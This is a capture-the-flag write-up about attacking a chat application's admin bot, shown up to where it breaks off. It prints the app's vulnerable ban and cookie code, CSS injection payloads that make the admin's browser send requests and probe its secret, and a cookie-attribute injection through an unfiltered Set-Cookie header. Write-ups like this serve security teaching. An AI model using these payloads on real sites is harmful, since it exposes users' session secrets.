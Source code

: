 

1. `/report` calls out the admin. admin may be a phantomjs, or any headless browser, because it executes css.

I first tried an xss. I imagined `catchat.js` is a clue because of the `cleanupRoomFullOfBadPeople` function. but everything is filtered with `esc`. everything?! not really

```
ban(data) {
  if (data.name == localStorage.name) {
    document.cookie = 'banned=1; Path=/';
    sse.close();
    display(`You have been banned and from now on won't be able to receive and send messages.`);
  } else {
    display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
  }
},
```

that means that when someone is banned, everyone will execute his name in css.

but how is that helpful with `esc`? well i tried everything on xss cheatsheets. then i tried if the admin really executes my code with a `background: url`

```
/name ]{}body{background:url(send?name=admin&msg=caca)}div[
```

Surprise. he does. but how do i get the cookie?

I tried
```
]{}span[data-secret]{background:url(send?name=admin&msg=yas)}div[
```

but he does not have it.

in `catchat.js` there's a clue

```
// Admin helper function. Invoke this to automate banning people in a misbehaving room.
// Note: the admin will already have their secret set in the cookie (it's a cookie with long expiration),
// so no need to deal with /secret and such when joining a room.
```

so he does have it in cookie. and if i run `/secret flag` i will get it in dom. but `new-flag` will override it.

2.
```
res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
```
in server.js. it has no filter. so I can send `/secret plm;domain=google.com` and it wont set the flag to cookie. it will not rewrite the flag. but it will trigger `secret` message in frontend.

3.
i had to keep reporting `/report` so i could see my payload. I automated this step in `gen.js`

